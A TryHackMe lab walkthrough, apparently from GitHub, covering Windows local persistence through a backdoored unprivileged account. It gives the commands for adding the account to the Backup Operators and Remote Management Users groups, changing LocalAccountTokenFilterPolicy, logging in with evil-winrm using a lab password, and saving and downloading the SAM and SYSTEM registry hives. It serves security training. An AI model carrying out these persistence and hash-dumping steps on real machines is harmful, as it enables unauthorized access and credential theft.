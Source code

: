 # Windows Local Persistence walkthrough — TryHackMe writeup

This walkthrough explains common Windows local persistence techniques (services, scheduled tasks, registry Autoruns, user account persistence) used in the TryHackMe "Windows Local Persistence" room. Step-by-step commands, output and remediation notes included.

# Windows Local Persistence — TryHackMe Walkthrough Task 1 to 5
**Difficulty:** Medium  
**Author:** Meng Hor 

--- 

After gaining initial foothold into a machine, we need to find a way to regain the access and sometimes doing the same thing will not work. This room offers multiple ways we can do to REGAIN the access to the machine.

--- 

## Task 2: Tampering With Unprivileged Accounts


### Assign Group Memberships
Add the unprivileged account to the Backup Operators group to avoid suspicion 
```bash
C:\> net localgroup "Backup Operators" thmuser1 /add
```

Since this is an unprivileged account, it cannot RDP or WinRM back to the machine unless we add it to the Remote Desktop Users (RDP) or Remote Management Users (WinRM) groups. We'll use WinRM for this task:
```bash
C:\> net localgroup "Remote Management Users" thmuser1 /add
```

Disable LocalAccountTokenFilterPolicy by changing the following registry key to 1:
```bash
C:\> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

Using this creditial 

<img width="497" height="213" alt="Screenshot 2025-10-21 at 9 56 30 in the morning" src="https://github.com/user-attachments/assets/dad79ce5-2f88-49b0-a232-21a4fe2a9d4c" />

Once all of this has been set up, we are ready to use our backdoor user. First, let's establish a WinRM connection and check that the Backup Operators group is enabled for our user: (On Attacker's Machine)
```bash
root@ip-10-201-4-134:~# evil-winrm -i 10.201.49.91 -u thmuser1 -p Password321
```

After this we should be in!!!
We then proceed to make a backup of SAM and SYSTEM files and download them to our attacker machine:
```bash
*Evil-WinRM* PS C:\> reg save hklm\system system.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> reg save hklm\sam sam.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> download system.bak
    Info: Download successful!

*Evil-WinRM* PS C:\> download sam.bak
    Info: Download successful!
```